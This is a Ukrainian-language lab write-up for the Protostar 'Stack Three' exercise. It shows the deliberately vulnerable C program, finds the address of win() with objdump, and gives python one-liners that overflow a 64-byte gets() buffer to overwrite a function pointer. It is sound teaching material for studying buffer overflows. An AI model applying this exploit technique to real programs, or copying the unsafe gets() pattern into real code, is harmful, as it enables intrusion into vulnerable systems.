 ## [Stack Three](http://exploit.education/protostar/stack-three/)

Stack3 розглядає змінні середовища, як їх можна встановити, а також перезаписувати покажчики функцій, що зберігаються в стеку (як прелюдія до перезапису збереженого EIP).

Переходимо у директорію із завданням:  
```cd /opt/protostar/bin/```

Вихідний код:  
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

Даний приклад коду виглядає дещо по-іншому. Немає змінної, яку потрібно модифікувати. Є тільки функція, яка ніколи не викликається і функція, яка викликається, але не задекларована.
Це натякає нам на перезапис EIP для виклику іншої функції. Тільки спочатку потрібно з'ясувати, яка адреса функції ```win()```. Із цим допоможе каманда ```objdump```:  
```objdump -x stack3 | grep win```  

Отже, маємо адрес функції  0x08048424.  

Тепер потрібно дізнатися скільки нам треба перезаписати до змінної ```fp```:  
```(python -c "print 'a'*65";) | ./stack3``` 

Як і очікувалося, ми отримали 0x00000061. Тобто, як і раніше, потрібно записати 64 байти у буфер, а далі адрес функції у реверсі (little endian):  
```(python -c "print('a' * 64 + '\x08\x04\x84\x24'[::-1])";) | ./stack3```